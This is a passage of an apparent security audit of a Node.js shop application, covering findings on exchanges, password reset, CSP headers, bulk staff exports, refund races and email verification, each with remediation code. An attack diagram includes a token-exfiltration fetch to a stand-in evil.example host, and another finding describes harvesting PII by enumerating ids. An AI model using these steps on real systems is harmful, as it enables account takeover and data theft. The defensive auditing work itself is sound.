  }

  // Replacement must exist, be sellable, and be in stock.
  const replacement = await db('widgets')
    .where({ id: replacement_widget_id, is_active: true }).first();
  if (!replacement) return res.status(400).json({ error: 'Replacement widget is not available' });
  if (replacement.stock_quantity < replacement_quantity) {
    return res.status(409).json({ error: 'Insufficient stock for replacement widget' });
  }

  // One open exchange per order.
  const open = await db('exchanges')
    .where({ order_id: order.id }).whereIn('status', ['requested', 'received']).first();
  if (open) return res.status(409).json({ error: 'An exchange is already in progress' });

  const returnedValue    = purchased.unit_price_cents * returned_quantity;  // immutable historical price
  const replacementValue = replacement.price_cents * replacement_quantity;

  const [row] = await db('exchanges').insert({
    order_id: order.id, processed_by: req.user.sub,
    returned_widget_id, returned_quantity,
    replacement_widget_id, replacement_quantity,
    status: 'requested',
    notes: (notes || '') + ' [auto] returned=' + returnedValue + ' replacement=' + replacementValue,
  }).returning('id');

  await db('orders').where({ id: order.id }).update({ status: 'exchange_pending' });
  res.status(201).json(await db('exchanges').where({ id: row.id ?? row }).first());
}));
```
```js
// api/src/routes/cs.js — replace lines 93-114
const TRANSITIONS = {
  requested: ['received', 'rejected'],
  received:  ['completed', 'rejected'],
  completed: [],
  rejected:  [],
};

router.patch('/exchanges/:id', asyncHandler(async (req, res) => {
  const { status, notes } = req.body || {};

  const result = await db.transaction(async (trx) => {
    const exchange = await trx('exchanges').where({ id: req.params.id }).forUpdate().first();
    if (!exchange) return { code: 404, body: { error: 'Exchange not found' } };

    if (status && !TRANSITIONS[exchange.status].includes(status)) {
      return { code: 409, body: { error: 'Invalid transition from ' + exchange.status } };
    }

    const updates = { updated_at: trx.fn.now() };
    if (status) updates.status = status;
    if (notes !== undefined) updates.notes = notes;

    if (status === 'completed') {
      // Settle the price difference (DESIGN.md:420) BEFORE declaring completion.
      const ord = await trx('orders').where({ id: exchange.order_id }).first();
      const purchased = await trx('order_items')
        .where({ order_id: exchange.order_id, widget_id: exchange.returned_widget_id }).first();
      const replacement = await trx('widgets').where({ id: exchange.replacement_widget_id }).first();
      const delta = (replacement.price_cents * exchange.replacement_quantity)
                  - (purchased.unit_price_cents * exchange.returned_quantity);

      const payment = await trx('payments').where({ id: ord.payment_id }).first();
      if (!payment) return { code: 409, body: { error: 'Order has no payment to settle against' } };

      if (delta < 0) {
        const r = await fauxpay.refund({
          transactionId: payment.processor_transaction_id, amountCents: -delta,
          idempotencyKey: 'exchange-' + exchange.id + '-settle',
        });
        await trx('refunds').insert({
          order_id: exchange.order_id, payment_id: payment.id, issued_by: req.user.sub,
          amount_cents: -delta, reason: 'Exchange ' + exchange.id + ' price difference',
          processor_refund_id: r.refund_id,
        });
      } else if (delta > 0) {
        const c = await fauxpay.charge({
          cardToken: payment.processor_card_token, amountCents: delta, orderId: exchange.order_id,
          idempotencyKey: 'exchange-' + exchange.id + '-settle',
        });
        await trx('payments').insert({
          order_id: exchange.order_id, processor_transaction_id: c.transaction_id,
          processor_card_token: payment.processor_card_token, amount_cents: delta,
          status: 'captured', card_last4: c.last4, card_brand: c.brand,
        });
      }

      // Replacement goods leave inventory HERE, not at request time.
      const moved = await trx('widgets')
        .where({ id: exchange.replacement_widget_id })
        .andWhere('stock_quantity', '>=', exchange.replacement_quantity)
        .decrement('stock_quantity', exchange.replacement_quantity);
      if (!moved) return { code: 409, body: { error: 'Insufficient stock for replacement' } };

      await trx('orders').where({ id: exchange.order_id }).update({ status: 'exchanged' });
    } else if (status === 'rejected') {
      // Restore the PREVIOUS status, never an unconditional 'paid'.
      const refunded = await trx('refunds').where({ order_id: exchange.order_id })
        .sum('amount_cents as t').first();
      const ord = await trx('orders').where({ id: exchange.order_id }).first();
      const t = Number(refunded.t || 0);
      await trx('orders').where({ id: exchange.order_id }).update({
        status: t === 0 ? 'paid' : (t >= ord.total_cents ? 'refunded' : 'partially_refunded'),
      });
    }

    await trx('exchanges').where({ id: req.params.id }).update(updates);
    return { code: 200, body: await trx('exchanges').where({ id: req.params.id }).first() };
  });

  res.status(result.code).json(result.body);
}));
```

Additionally, require **two-person approval** for any exchange whose settlement delta exceeds a configured threshold (e.g. 100 USD): record `requested_by` and a separate `approved_by`, and reject `completed` when they are the same user id. This is the maker-checker control that stops a single compromised CS account from self-approving high-value merchandise, which no amount of field validation alone can prevent.

**Mappings.** OWASP Top 10 A04:2021 Insecure Design, A01:2021 Broken Access Control - OWASP API Top 10 API6:2023 Unrestricted Access to Sensitive Business Flows, API3:2023 Broken Object Property Level Authorization, API1:2023 Broken Object Level Authorization - ASVS v5.0 V11.1.1 (business logic flows processed in sequence), V11.1.2 (realistic business limits), V11.1.3, V1.11 - CWE-841, CWE-639
**STRIDE.** Tampering, Elevation of Privilege, Repudiation

---

### F-09 — No password reset and no change-password flow: credential compromise is unrecoverable

**Severity: Medium** - Impact 3 - Likelihood 4 - Complexity 3

**Evidence**
- `Node JS/api/src/routes/auth.js` — 55 lines total, containing only `/register` and `/login`. No `forgot-password`, `reset-password` or `change-password` route exists anywhere in `api/src/routes/`.
- No `password_reset_tokens` migration exists in `api/src/db/migrations/` — the table specified in `DESIGN.md` 5.3 and `DESIGN.md:142` was never created
- The SPA has no corresponding UI: `web/src/pages/Login.jsx:56-58` offers only a Create one link, no Forgot password link
- `DESIGN.md:892-893` requires both flows as functional requirements 11 and 12; `DESIGN.md:366` and `:372` both depend on them to revoke sessions

**Attack scenario.** There is no mechanism by which any user — customer, admin or CS — can change their password. The consequences are security consequences, not merely functional ones. A user whose password is exposed (phished, reused from a breach, or captured over the cleartext channel in F-03) has **no** remediation path: the credential cannot be rotated, and since no `refresh_tokens` table exists either (F-06), the sessions it authorised cannot be revoked. The attacker retains access indefinitely. This also removes the only designed trigger for session revocation, so F-06 and F-09 together mean the system has no account-recovery story at all. A secondary effect: because the only way to regain a clean account is to register a new one, and registration is unthrottled and unverified (F-05, F-13), users are pushed toward abandoning accounts rather than securing them.

Note that the *absence* of a reset flow means there is no reset-token vulnerability to report today — but it also means the design hashed, single-use, time-limited token requirements have never been implemented and will need to be built correctly rather than reviewed.



**Root cause.** Two of the design key authentication flows, and the schema backing them, were omitted from the implementation, leaving no credential-rotation or session-revocation capability.

**Remediation — implement the designed flows using the hashed, single-use, time-limited reset token with uniform response, plus re-authenticated password change with session revocation.** Both depend on the `refresh_tokens` table from F-06.

1. Migration:
   ```js
   // migrations/20260101000014_create_password_reset_tokens.js
   exports.up = (knex) => knex.schema.createTable('password_reset_tokens', (t) => {
     t.increments('id').primary();
     t.integer('user_id').unsigned().notNullable()
       .references('id').inTable('users').onDelete('CASCADE');
     t.string('token_hash').notNullable().unique();
     t.timestamp('expires_at').notNullable();
     t.timestamp('used_at').nullable();
     t.timestamp('created_at').defaultTo(knex.fn.now());
     t.index(['user_id']);
   });
   ```
2. Routes (`api/src/routes/auth.js`):
   ```js
   const crypto = require('crypto');
   const { requireAuth } = require('../middleware/auth');
   const { revokeAll, issueSession } = require('../services/sessions');
   const email = require('../services/emailClient');   // transactional provider, DESIGN.md section 3

   const sha = (v) => crypto.createHash('sha256').update(v).digest('hex');
   const RESET_TTL_MS = 30 * 60 * 1000;

   router.post('/forgot-password', asyncHandler(async (req, res) => {
     const { email: addr } = req.body || {};
     // Always the same response and roughly the same timing — no user enumeration.
     res.status(202).json({ message: 'If that email is registered, a reset link has been sent' });

     if (!addr) return;
     const user = await db('users').where({ email: addr }).first();
     if (!user) return;

     // Supersede any outstanding token for this user.
     await db('password_reset_tokens').where({ user_id: user.id }).whereNull('used_at')
       .update({ used_at: db.fn.now() });

     const raw = crypto.randomBytes(32).toString('base64url');
     await db('password_reset_tokens').insert({
       user_id: user.id, token_hash: sha(raw),
       expires_at: new Date(Date.now() + RESET_TTL_MS),
     });
     await email.sendPasswordReset(user.email, raw);   // plaintext token only ever in the email
   }));

   router.post('/reset-password', asyncHandler(async (req, res) => {
     const { token, new_password } = req.body || {};
     if (typeof new_password !== 'string' || new_password.length < 12) {
       return res.status(400).json({ error: 'new_password must be at least 12 characters' });
     }

     const done = await db.transaction(async (trx) => {
       const row = await trx('password_reset_tokens')
         .where({ token_hash: sha(String(token || '')) }).forUpdate().first();
       if (!row || row.used_at || new Date(row.expires_at) < new Date()) return false;

       await trx('users').where({ id: row.user_id }).update({
         password_hash: await bcrypt.hash(new_password, 12),
         failed_login_attempts: 0, locked_until: null,   // clears any F-05 lock
         must_change_password: false,                     // clears the forced-rotation gate
       });
       await trx('password_reset_tokens').where({ id: row.id }).update({ used_at: trx.fn.now() });
       await trx('refresh_tokens').where({ user_id: row.user_id }).whereNull('revoked_at')
         .update({ revoked_at: trx.fn.now() });          // DESIGN.md:366 — kill every session
       return true;
     });

     return done ? res.json({ message: 'Password reset' })
                 : res.status(400).json({ error: 'Invalid or expired reset token' });
   }));

   router.post('/change-password', requireAuth, asyncHandler(async (req, res) => {
     const { current_password, new_password } = req.body || {};
     if (typeof new_password !== 'string' || new_password.length < 12) {
       return res.status(400).json({ error: 'new_password must be at least 12 characters' });
     }
     const user = await db('users').where({ id: req.user.sub }).first();
     // Re-authenticate: a stolen token alone must not be able to take over the account.
     if (!user || !(await bcrypt.compare(String(current_password || ''), user.password_hash))) {
       return res.status(403).json({ error: 'Current password is incorrect' });
     }
     await db('users').where({ id: user.id }).update({
       password_hash: await bcrypt.hash(new_password, 12), must_change_password: false,
     });
     await revokeAll(user.id);                          // log out every other session
     const { token } = await issueSession(res, user);   // keep the caller signed in
     res.json({ message: 'Password changed', token });
   }));
   ```
3. Enforce password quality with a **breached-password check** rather than only a length rule: screen candidates against a compromised-credential list (e.g. the Pwned Passwords k-anonymity range API) as NIST SP 800-63B 5.1.1.2 requires. This matters specifically because the F-05 stuffing exposure is driven by reused breached passwords; a length-only rule (`auth.js:16-18` currently allows an 8-character value) does not reduce it.
4. Add the Forgot password link and the reset/change forms to `web/src/pages/Login.jsx` and an account-settings page.

Why this closes the gap: the hashed single-use token means a leaked database or log cannot be replayed into an account takeover, the uniform 202 keeps the endpoint from becoming an enumeration oracle, and the mandatory `refresh_tokens` revocation on both paths is what actually evicts an attacker who already holds a session.

**Mappings.** OWASP Top 10 A07:2021, A04:2021 - OWASP API Top 10 API2:2023 - ASVS v5.0 V2.5.1-V2.5.7 (credential recovery), V2.1.7 (breached password check), V3.3.1 (session termination on credential change) - NIST SP 800-63B 5.1.1.2, 6.1.2.3
**STRIDE.** Spoofing, Elevation of Privilege, Repudiation

---

### F-10 — No security headers and no Content-Security-Policy

**Severity: Medium** - Impact 3 - Likelihood 3 - Complexity 3

**Evidence**
- `Node JS/api/src/app.js:14-19` — the complete middleware chain is `cors()`, `express.json()`, `cookieParser()`. No `helmet`, no `X-Content-Type-Options`, no `Referrer-Policy`, no `X-Frame-Options`.
- `Node JS/api/package.json:12-21` — `helmet` is not a dependency
- `Node JS/web/nginx.conf` — 20 lines, containing no `add_header` directive of any kind: no `Content-Security-Policy`, no `Strict-Transport-Security`, no `X-Frame-Options`, no `X-Content-Type-Options`
- `Node JS/web/index.html:7-12` — loads fonts and a stylesheet from `fonts.googleapis.com` / `fonts.gstatic.com`, so a policy must be written deliberately rather than defaulted to `self`
- `DESIGN.md:99` — a strict Content-Security-Policy (no unsafe-inline, no unsafe-eval) is applied SPA-wide; `DESIGN.md:900` — a CSP restricting inline scripts limits the underlying XSS surface

**Attack scenario.** I found no reflected or stored XSS sink in the SPA: there is no `dangerouslySetInnerHTML`, no `innerHTML` and no `eval` anywhere under `web/src` (verified by grep), and review bodies and user display names are rendered through JSX text interpolation (`web/src/pages/WidgetDetail.jsx:187,189`), which React escapes. So this is not XSS exists; it is that the designed mitigation limiting the *consequences* of script execution is absent, while the consequence has been made maximal by F-06. Concretely: with the access token in `localStorage` and no CSP, any future script-execution foothold — a `dangerouslySetInnerHTML` added in a later sprint, a compromised npm package in the react / react-router-dom / vite tree, or a malicious third-party font or CDN response over the unauthenticated HTTP channel of F-03 — becomes a silent full-account-takeover primitive, because the injected script can both read the token and exfiltrate it to an arbitrary origin with no `connect-src` restriction. The missing `X-Frame-Options` / `frame-ancestors` additionally permits clickjacking of the Admin and CS consoles, and the missing `X-Content-Type-Options: nosniff` permits MIME-confusion attacks on API JSON responses.

```mermaid
sequenceDiagram
    actor A as Attacker
    participant NPM as npm registry / third-party CDN
    participant V as Victim browser (no CSP)
    participant N as nginx :8080
    participant API as api:3000
    A->>NPM: publish malicious semver-compatible version (see F-16)
    NPM-->>V: bundled script served from OUR origin
    V->>V: script executes — no script-src, no connect-src policy
    V->>V: localStorage.getItem('token')   (readable: F-06)
    V->>A: fetch('https://evil.example/x?t=' + token)   (no connect-src to block it)
    A->>N: GET /api/users/me + Bearer stolen
    API-->>A: 200 — full session; unrevocable for 12h (F-06)
```

**Root cause.** Neither the API nor the static-file server sets any security response headers, so the browser-side defence-in-depth layer the design relies on to cap XSS damage does not exist.

**Remediation — apply a strict `script-src 'self'` CSP at the static-file/gateway tier plus `helmet` defaults on the API, combined with the in-memory token from F-06 so there is nothing persistent for injected script to steal.**

1. `web/nginx.conf` (mirror in the new `gateway` config from F-03), inside the `server` block:
   ```nginx
   add_header Content-Security-Policy "default-src 'self'; script-src 'self'; style-src 'self' https://fonts.googleapis.com; font-src 'self' https://fonts.gstatic.com; img-src 'self' data:; connect-src 'self'; frame-ancestors 'none'; base-uri 'none'; form-action 'self'; object-src 'none'" always;
   add_header X-Content-Type-Options "nosniff" always;
   add_header X-Frame-Options "DENY" always;
   add_header Referrer-Policy "strict-origin-when-cross-origin" always;
   add_header Permissions-Policy "geolocation=(), camera=(), microphone=(), payment=()" always;
   ```
   `connect-src 'self'` is the load-bearing directive: even if script runs, it cannot post the stolen value to an attacker origin. `frame-ancestors 'none'` stops Admin/CS clickjacking. Note that `styles.css` is a real file and the SPA uses React inline `style={{...}}` props (attribute styles, not `<style>` blocks) so no `unsafe-inline` for `style-src` is needed — consistent with `DESIGN.md:99`.
2. Self-host the Inter font and drop lines 7-12 of `web/index.html`, allowing `style-src 'self'; font-src 'self'` and eliminating the third-party origin as an injection path entirely.
3. API side (`api/src/app.js`, before the route mounts):
   ```js
   const helmet = require('helmet');   // add "helmet": "^7.1.0" to api/package.json
   app.disable('x-powered-by');
   app.use(helmet({
     contentSecurityPolicy: { directives: { defaultSrc: ["'none'"], frameAncestors: ["'none'"] } },
     hsts: { maxAge: 63072000, includeSubDomains: true },
     crossOriginResourcePolicy: { policy: 'same-origin' },
   }));
   ```
   A JSON API needs no script or style sources, so `default-src 'none'` is correct and strictest there.
4. Add CSP reporting (`report-to` or a `report-uri` endpoint) so violations surface before they become incidents.

Why this closes the gap: `script-src 'self'` blocks injected inline and remote script outright, and `connect-src 'self'` removes the exfiltration channel even for script that does run — which, combined with the F-06 in-memory token, means a script foothold no longer yields a durable, portable credential.

**Mappings.** OWASP Top 10 A05:2021, A03:2021 Injection (XSS), A04:2021 - OWASP API Top 10 API8:2023 - ASVS v5.0 V14.4.1-V14.4.7 (HTTP security headers), V3.4, V50.x (front-end security) - CWE-1021, CWE-693
**STRIDE.** Information Disclosure, Tampering, Elevation of Privilege

---

### F-11 — Unbounded staff data-export endpoints enable bulk PII and order harvesting

**Severity: Medium** - Impact 3 - Likelihood 3 - Complexity 4

**Evidence**
- `Node JS/api/src/routes/cs.js:11-16` — whole-table join with an unanchored substring filter, no limit, no pagination:
  ```js
  const { email } = req.query;
  let query = db('orders').join('users', 'users.id', 'orders.user_id')
    .select('orders.*', 'users.email as customer_email');
  if (email) query = query.andWhereILike('users.email', '%' + email + '%');
  res.json(await query.orderBy('orders.created_at', 'desc'));
  ```
- `Node JS/api/src/routes/admin.js:65-68` — every order in the database, unbounded:
  ```js
  const orders = await db('orders').orderBy('created_at', 'desc');
  res.json(orders);
  ```
- `Node JS/api/src/routes/cs.js:18-25` — `GET /cs/orders/:id` returns order plus items, refunds and exchanges for any order id
- No limit/offset/cursor parameter is accepted by any of these routes; no per-actor query budget or volume alerting exists anywhere in `api/src`
- `DESIGN.md:125` and `DESIGN.md:411` scope CS to *looking up* an order by id or customer email, not to bulk export

**Attack scenario.** The `ILIKE` filter is correctly parameterized by knex (no SQL injection — see section 6), but it is unanchored, so it functions as a wildcard search rather than a lookup. A single request to `GET /api/cs/orders?email=@` matches every registered customer and returns the complete order table joined to customer email addresses in one response; `?email=a` does the same. Combined with `GET /api/cs/orders/:id` iterated over a dense integer id space (`orders.id` is `increments()`, so ids are sequential and enumerable), an actor holding a CS token can extract the full commercial and PII dataset — customer emails, order values, refund history, exchange notes — in minutes, with no volume ceiling, no pagination forcing repeated deliberate actions, and no audit trail (F-14) recording that it happened. The same applies to `GET /api/admin/orders`. This converts one compromised staff credential (readily obtained via F-01) into a full-database breach, and the unbounded result set is simultaneously a resource-exhaustion vector: a few concurrent calls against a large `orders` table will exhaust the API heap and the database connection pool.

```mermaid
sequenceDiagram
    actor A as Actor with customer_service token (F-01)
    participant N as nginx :8080 (no rate limit)
    participant API as api:3000
    participant DB as postgres
    A->>N: GET /api/cs/orders?email=@
    API->>DB: SELECT orders.*, users.email FROM orders JOIN users<br/>WHERE users.email ILIKE '%@%'  -- no LIMIT
    DB-->>API: every order + every customer email
    API-->>A: 200 [ ...entire table... ]
    loop enumerate sequential ids 1..N
        A->>N: GET /api/cs/orders/:id
        API-->>A: 200 {order, items, refunds, exchanges}
    end
    Note over A: full PII + commercial dataset exfiltrated;<br/>no audit record (F-14), no volume cap
```

**Root cause.** Staff read endpoints implement authorization (is this a CS agent?) but no resource governance — no result-set bound, no pagination, no minimum-specificity requirement on the search term, and no per-actor access accounting.

**Remediation — mandatory keyset pagination with a hard server-side cap, minimum-specificity exact-match lookup, and per-actor access logging.**

```js
// api/src/routes/cs.js — replace lines 11-16
const MAX_PAGE = 50;

router.get('/orders', asyncHandler(async (req, res) => {
  const { email, order_id, cursor } = req.query;
  const limit = Math.min(Number(req.query.limit) || 25, MAX_PAGE);   // hard ceiling

  // Require a specific search term: no term means no bulk listing.
  if (!email && !order_id) {
    return res.status(400).json({ error: 'Provide order_id or a full customer email to search' });
  }
  if (email && !/^[^@\s]+@[^@\s]+\.[^@\s]+$/.test(email)) {
    return res.status(400).json({ error: 'email must be a complete address (exact match)' });
  }

  let q = db('orders')
    .join('users', 'users.id', 'orders.user_id')
    .select('orders.id', 'orders.status', 'orders.total_cents', 'orders.created_at',
            'users.email as customer_email');

  if (order_id) q = q.where('orders.id', order_id);
  if (email)    q = q.where('users.email', email);      // exact match, not a substring pattern
  if (cursor)   q = q.where('orders.id', '<', Number(cursor));

  const rows = await q.orderBy('orders.id', 'desc').limit(limit + 1);
  const page = rows.slice(0, limit);

  await audit(req, 'cs.orders.search', { email, order_id, returned: page.length });  // see F-14

  res.json({
    orders: page,
    next_cursor: rows.length > limit ? page[page.length - 1].id : null,
  });
}));
```
```js
// api/src/routes/admin.js — replace lines 65-68
router.get('/orders', asyncHandler(async (req, res) => {
  const limit = Math.min(Number(req.query.limit) || 25, 50);
  const cursor = req.query.cursor ? Number(req.query.cursor) : null;
  let q = db('orders')
    .select('id', 'status', 'subtotal_cents', 'total_cents', 'created_at')  // no user_id: minimise
    .orderBy('id', 'desc').limit(limit + 1);
  if (cursor) q = q.where('id', '<', cursor);
  const rows = await q;
  const page = rows.slice(0, limit);
  await audit(req, 'admin.orders.list', { returned: page.length });
  res.json({ orders: page, next_cursor: rows.length > limit ? page[page.length - 1].id : null });
}));
```
Also update the SPA callers (`web/src/api/client.js:67,69` and `web/src/pages/Admin.jsx`, `web/src/pages/CustomerService.jsx`) to read `data.orders` and follow `next_cursor`.

Layer on two detective controls, because pagination alone only slows a determined insider: (a) emit an audit event per staff read (F-14) including the actor, the search term and the row count; (b) add a per-actor daily volume threshold that alerts when a single CS or admin account reads an anomalous number of distinct orders. Why this closes the gap: the exact-match requirement removes the single-request full-table dump, the hard limit cap removes the resource-exhaustion vector and forces an exfiltration attempt into thousands of individually attributable requests, and the volume alerting is what turns that visible pattern into a detection.

**Mappings.** OWASP Top 10 A01:2021, A04:2021, A09:2021 - OWASP API Top 10 API4:2023 Unrestricted Resource Consumption, API3:2023 Broken Object Property Level Authorization, API6:2023 - ASVS v5.0 V11.1.2 (business limits), V8.1 (data minimisation), V8.3.4, V7.2 - CWE-770, CWE-213
**STRIDE.** Information Disclosure, Denial of Service, Repudiation

---

### F-12 — Non-atomic refund accounting and no idempotency key on processor calls

**Severity: Medium** - Impact 3 - Likelihood 2 - Complexity 3

**Evidence** — `Node JS/api/src/routes/cs.js:38-68`, a read-then-write with no transaction and no row lock:
```js
const alreadyRefunded = await db('refunds').where({ order_id: order.id }).sum('amount_cents as total').first();
const refundedSoFar = Number(alreadyRefunded.total || 0);
if (refundedSoFar + amount_cents > order.total_cents) {   // line 40 — CHECK
  return res.status(400).json({ error: 'Refund amount exceeds order total' });
}
let result;
try {
  result = await fauxpay.refund({ transactionId: payment.processor_transaction_id, amountCents: amount_cents }); // 46
}
// ...
const [row] = await db('refunds').insert({ /* ... */ }).returning('id');   // line 51 — USE
```
- No `db.transaction(...)` and no `.forUpdate()` on the order or payment row anywhere in this handler
- `Node JS/api/src/services/fauxpayClient.js:4-29` — `post()` sends no `Idempotency-Key` header and `refund()` / `charge()` accept no such parameter, so a retried or duplicated call is indistinguishable from a new one at the processor
- `Node JS/api/src/routes/orders.js:70` — the checkout charge has the same gap; a client retry or proxy replay of `POST /api/orders` can produce two charges
- Partial mitigation confirmed by reading the processor: `Node JS/fauxpay/src/server.js:69-71` re-checks the cumulative refunded amount synchronously, and the single-threaded Node handler makes that check-and-update atomic **in this stand-in implementation only**

**Attack scenario.** The application-side refund ceiling at `cs.js:40` is a classic TOCTOU: two concurrent `POST /api/cs/orders/17/refunds` requests for the full order total both read `refundedSoFar = 0`, both pass the check, and both proceed to line 46. In the as-built system the second processor call is rejected by the FauxPay synchronous guard, so real over-refunding is currently blocked — but that safety depends entirely on an accidental property of the stand-in (single-threaded, in-process, synchronous state) that no real payment gateway guarantees, and that disappears the moment `api` is scaled to more than one replica or FauxPay is swapped for the real processor the design specifies (`DESIGN.md:343`). The absence of idempotency keys is the compounding defect: the system cannot safely retry a refund or charge whose response was lost, and cannot distinguish a network retry from a genuine second request — the standard cause of real-world double charges. On the checkout path this is customer-visible: a duplicate `POST /api/orders` (double-click, proxy retry, mobile reconnect) produces two `payments` rows and two real charges with no server-side deduplication.



**Root cause.** A financial invariant is enforced by an unsynchronised read-then-write in application code rather than by a database-level lock or constraint, and outbound money-moving calls carry no deduplication token.

**Remediation — enforce the ceiling with a serialised transaction over a locked aggregate root plus a database-enforced invariant, and make every processor call idempotent with a deterministic key.**

1. Add idempotency support to the client (`api/src/services/fauxpayClient.js`):
   ```js
   async function post(path, body, idempotencyKey) {
     const headers = {
       'Content-Type': 'application/json',
       Authorization: 'Bearer ' + FAUXPAY_SECRET_KEY,
     };
     if (idempotencyKey) headers['Idempotency-Key'] = idempotencyKey;
     const res = await fetch(FAUXPAY_BASE_URL + path,
       { method: 'POST', headers, body: JSON.stringify(body) });
     const data = await res.json();
     if (!res.ok) { const e = new Error(data.error || 'FauxPay request failed');
                    e.status = res.status; e.data = data; throw e; }
     return data;
   }

   function charge({ cardToken, amountCents, currency = 'USD', orderId, idempotencyKey }) {
     return post('/charge', { card_token: cardToken, amount_cents: amountCents,
                              currency, order_id: orderId }, idempotencyKey);
   }
   function refund({ transactionId, amountCents, idempotencyKey }) {
     return post('/refund', { transaction_id: transactionId,
                              amount_cents: amountCents }, idempotencyKey);
   }
   ```
   and honour it in the stand-in so the behaviour can be tested (`fauxpay/src/server.js`): keep an idempotency Map of key to prior response and return the stored response on a repeat key.
2. Make the refund handler serialisable, locking the order row before the check and inserting the ledger row in the same transaction (`api/src/routes/cs.js`, replacing lines 33-68):
   ```js
   const out = await db.transaction(async (trx) => {
     const order = await trx('orders').where({ id: req.params.id }).forUpdate().first();
     if (!order) return { code: 404, body: { error: 'Order not found' } };
     if (!['paid', 'partially_refunded', 'exchanged'].includes(order.status)) {
       return { code: 409, body: { error: 'Cannot refund an order in status ' + order.status } };
     }
     const payment = await trx('payments').where({ id: order.payment_id }).forUpdate().first();
     if (!payment) return { code: 400, body: { error: 'Order has no associated payment' } };

     const { total } = await trx('refunds').where({ order_id: order.id })
       .sum('amount_cents as total').first();
     const refundedSoFar = Number(total || 0);
     // Ceiling is the amount actually CAPTURED, not the order total.
     if (refundedSoFar + amount_cents > payment.amount_cents) {
       return { code: 400, body: { error: 'Refund amount exceeds captured amount' } };
     }

     // Reserve the ledger row first, so its id gives a deterministic idempotency key.
     const [row] = await trx('refunds').insert({
       order_id: order.id, payment_id: payment.id, issued_by: req.user.sub,
       amount_cents, reason, processor_refund_id: null,
     }).returning('id');
     const refundId = row.id ?? row;

     const result = await fauxpay.refund({
       transactionId: payment.processor_transaction_id,
       amountCents: amount_cents,
       idempotencyKey: 'refund-' + refundId,   // a retry cannot double-pay
     });

     await trx('refunds').where({ id: refundId })
       .update({ processor_refund_id: result.refund_id });

     const totalRefunded = refundedSoFar + amount_cents;
     const done = totalRefunded >= payment.amount_cents;
     await trx('orders').where({ id: order.id })
       .update({ status: done ? 'refunded' : 'partially_refunded' });
     await trx('payments').where({ id: payment.id })
       .update({ status: done ? 'refunded' : 'partially_refunded' });

     return { code: 201, body: await trx('refunds').where({ id: refundId }).first() };
   }, { isolationLevel: 'serializable' });

   res.status(out.code).json(out.body);
   ```
   `forUpdate()` on the order and payment rows serialises concurrent refunds on the same order, so the second request reads the committed total from the first and is correctly rejected — the invariant no longer depends on the processor implementation details.
3. Add a database-level backstop so no future code path can violate the invariant:
   ```js
   // migrations/20260101000015_refund_integrity.js
   exports.up = async (knex) => {
     await knex.raw('ALTER TABLE refunds ADD CONSTRAINT refunds_amount_positive CHECK (amount_cents > 0)');
     await knex.raw(`
       CREATE OR REPLACE FUNCTION assert_refund_within_capture() RETURNS trigger AS $BODY$
       DECLARE captured int; already int;
       BEGIN
         SELECT amount_cents INTO captured FROM payments WHERE id = NEW.payment_id FOR UPDATE;
         SELECT COALESCE(SUM(amount_cents),0) INTO already FROM refunds
           WHERE payment_id = NEW.payment_id AND id <> NEW.id;
         IF already + NEW.amount_cents > captured THEN
           RAISE EXCEPTION 'refund total exceeds captured amount';
         END IF;
         RETURN NEW;
       END; $BODY$ LANGUAGE plpgsql;`);
     await knex.raw(`CREATE TRIGGER trg_refund_within_capture
       BEFORE INSERT OR UPDATE ON refunds
       FOR EACH ROW EXECUTE FUNCTION assert_refund_within_capture()`);
   };
   ```
4. Apply `idempotencyKey: 'order-' + order.id` to the checkout charge (shown in F-07) and add a unique index on `payments(order_id)` where `status='captured'`, so a duplicated checkout cannot record two captures for one order.

Why this closes the gap: the row lock makes the check-and-insert a single serialised operation so the race cannot occur regardless of replica count, the database trigger enforces the money invariant even if a future handler forgets to, and the deterministic idempotency key makes every processor call safe to retry — which is what actually prevents the real-world double-charge and double-refund cases.

**Mappings.** OWASP Top 10 A04:2021, A01:2021 - OWASP API Top 10 API6:2023, API10:2023 Unsafe Consumption of APIs - ASVS v5.0 V11.1.4 (business logic anti-automation / race conditions), V11.1.1, V11.2 - CWE-367 (TOCTOU), CWE-362 (Race Condition), CWE-841
**STRIDE.** Tampering, Repudiation, Denial of Service

---

### F-13 — Email address never verified at registration

**Severity: Medium** - Impact 2 - Likelihood 3 - Complexity 5

**Evidence** — `Node JS/api/src/routes/auth.js:11-35`. The handler validates only presence and password length, then issues a working session immediately:
```js
const { email, password, full_name } = req.body || {};
if (!email || !password) return res.status(400).json({ error: 'email and password are required' });
if (typeof password !== 'string' || password.length < 8) { /* ... */ }
const existing = await db('users').where({ email }).first();
if (existing) return res.status(409).json({ error: 'An account with that email already exists' });
const password_hash = await bcrypt.hash(password, 10);
const [row] = await db('users').insert({ email, password_hash, full_name, role: 'customer' });
// ...
const token = jwt.sign({ sub: user.id, email: user.email, role: user.role }, JWT_SECRET, { expiresIn: '12h' });
res.status(201).json({ token, user });
```
- No syntactic validation of `email` at all (the DB column is a plain `string` — `migrations/20260101000001_create_users.js:4`), no normalisation (case, Unicode, dot/plus aliasing), and no proof-of-control step
- Uniqueness *is* enforced (`.unique()` on `users.email`), which is a different property from verification — one account holds the address, but nobody checked that the holder owns the mailbox
- `full_name` is unvalidated and unbounded and is rendered to other users as the review author (`web/src/pages/WidgetDetail.jsx:189`)
- No `email_verified` column exists; no verification email is sent anywhere in `api/src`

**Attack scenario.** The system treats `users.email` as an identifier for a specific real-world party — it is the login identifier (`DESIGN.md:166`), the key CS uses to find a customer's orders (`cs.js:14`), and the designated destination for password-reset links (`DESIGN.md:364`) — but never confirms that whoever supplied it controls that mailbox. Two concrete exploits follow. **Account pre-hijacking:** an attacker registers `victim@corp.example` before the real owner does; the owner then receives the `409` at `auth.js:22` and cannot sign up, and when the reset flow from F-09 is eventually built it will send reset links to a mailbox whose corresponding account is the attacker's. **Staff impersonation:** the seeded staff domain pattern is public (`README.md:21-22`), so an attacker registers lookalike addresses and leverages them in social engineering. Separately, because `full_name` is unvalidated and displayed beside reviews, it is a free-text channel for injecting misleading content (for example a fake "Verified Widget Shop Support" author name with a phone number) into pages other customers read; React escaping prevents script execution but not the social-engineering payload. Unlimited registration (F-05) makes all of this cheap and mints the throwaway accounts F-07 depends on.



**Root cause.** An identifier bound to a real-world party is accepted, stored and trusted as authoritative on the strength of a uniqueness constraint alone, with no proof that the supplier controls it.

**Remediation — require proof-of-control via a hashed, single-use, time-limited email verification token before the account is usable, and normalise plus validate the address and display name on the way in.**

1. Migration:
   ```js
   // migrations/20260101000016_email_verification.js
   exports.up = async (knex) => {
     await knex.schema.alterTable('users', (t) => {
       t.boolean('email_verified').notNullable().defaultTo(false);
     });
